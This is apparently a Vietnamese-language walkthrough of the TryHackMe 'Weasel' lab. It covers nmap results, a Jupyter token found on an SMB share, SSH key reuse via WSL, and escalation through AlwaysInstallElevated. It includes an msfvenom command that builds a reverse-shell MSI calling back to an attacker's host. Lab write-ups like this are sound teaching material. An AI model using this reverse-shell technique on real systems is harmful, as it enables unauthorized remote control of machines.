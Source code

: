# **Weasel - Room - TryHackMe**

*Because of my broken english, I wrote this writeup by my mom language*

*Btw, đây là máy window đầu tiên mình làm nên còn nhiều sai xót* 🙄

Mình chạy nmap để xem con máy này mở những port nào và đây là kết quả

```
Nmap scan report for 10.10.175.47 (10.10.175.47)
Host is up (0.40s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b17d88a1e8c99bc5bf53d0a5eff5e5e (RSA)
|   256 3cc0fdb5c157ab75ac8110aee298120d (ECDSA)
|_  256 e9f030bee6cfeffe2d1421a0ac457b70 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-05-28T16:11:32+00:00
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
|_ssl-date: 2023-05-28T16:11:49+00:00; +1s from scanner time.
8888/tcp open  http          Tornado httpd 6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
| http-robots.txt: 1 disallowed entry 
|_/ 
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-28T16:11:29
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

Nhìn vào kết quả, mình biết được đây là 1 con máy chạy Window, có mở smb và có 1 con web ở port 8888. Mình check trang này thì thấy đây là 1 trang *Jupyter notebook* (Hãy google về cái này để biết thêm thông tin chi tiết nhé).

![check web](/tryhackme/weasel/images/check_web.png)

Có vẻ như mình cần tìm token hoặc password ở đâu đó mới thao tác được với trang web. Do nãy mình dùng nmap để scan, kết quả trả về có smb tại port 135, nên mình đã dùng *smbclient* để check xem có folder nào được share không

![shared folder](/tryhackme/weasel/images/shared_folder.png)

Và có thật, có folder *datasci-team* được share, nên mình đã chọc vào đây xem folder này có những gì, và tìm thấy được token để login vào cái trang web tại port 8888.

![found token](/tryhackme/weasel/images/found_token.png)

Login thôi

![Login web](/tryhackme/weasel/images/login_jupyter.png)

Trông cái thứ trên web và cái thứ tại smb khá giống nhau, nên mình put linh tinh lên cái smb để xem 2 cái này có cùng folder không, nhưng nó lại là không, tức là 2 cái này ở 2 chỗ khác nhau (Nhưng khả năng 2 folder này ở cùng 1 hệ thống)

![check same folder](/tryhackme/weasel/images/check_if_same_folder.png)

Nhưng vì đây là *Jupyter notebook* nên mình đã tạo 1 terminal mới xem có những gì, và đây là 1 hệ thống linux (WSL đấy)

![jupyter terminal](/tryhackme/weasel/images/jupyter_terminal.png)

Mình có thấy có 1 cái key ssh ở đây và có vẻ như user sử dụng key này là *dev-datasci-lowpriv*, mình lấy key này về và thành công ssh vào server với username là *dev-datasci-lowpriv*.

![ssh](/tryhackme/weasel/images/ssh.png)

Không biết vì sao nhưng mình đã tìm thấy powershell trên máy window này và dùng cả *command prompt* lẫn *powershell*. Bằng biện pháp nghiệp vụ, mình đã scan ra được user này có quyền chạy file *msi* dưới quyền Admin (hoặc là NT AUTHORITY\SYSTEM) - nếu mà đối chiếu sang linux thì nó sẽ tương đương với lệnh "sudo -u root ...". Bất kỳ user nào được bật *AlwaysInstallElevated* tại cả 2 chỗ *HKLM* và *HKCU* đều có thể thực hiện được việc thực thi với file msi bằng quyền Admin vậy.

![vuln](/tryhackme/weasel/images/vuln.png)

Bên cạnh đó, máy Window này đã tắt Antivirus

![disabled AV](/tryhackme/weasel/images/Disabled_AV.png)

Mình cũng có tìm thấy được creds của user

![creds](/tryhackme/weasel/images/creds.png)

Mọi thứ đều có trong tay, mình tạo 1 con reverse shell bằng metasploit. (ditme thuat ngu chuyen nganh)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LISTENING PORT> -f msi > setup.msi
```

Đẩy lên máy window cái file mình vừa tạo và mình thành công chiếm quyền *Administrator* của máy

![get administrator](/tryhackme/weasel/images/get_administrator.png)

## **Bonus**

Sau một hồi ngồi tìm kiếm, mình thấy máy này có 1 cách nữa là mount máy window tại máy Linux ở Jupyter notebook và lấy được flag (Do Administrator của máy này là phế vật ở máy khác nên mình thoải mái di chuyển trong cái chỗ mình mount). Phần này liên quan đến [Windows Subsystem for Linux](https://stackoverflow.com/questions/45244306/mounting-a-windows-share-in-windows-subsystem-for-linux) nên mình sẽ chỉ để ảnh thôi nhé chứ không viết gì thêm.

![bonus1](/tryhackme/weasel/images/bonus_1.png)

![bonus2](/tryhackme/weasel/images/bonus_2.png)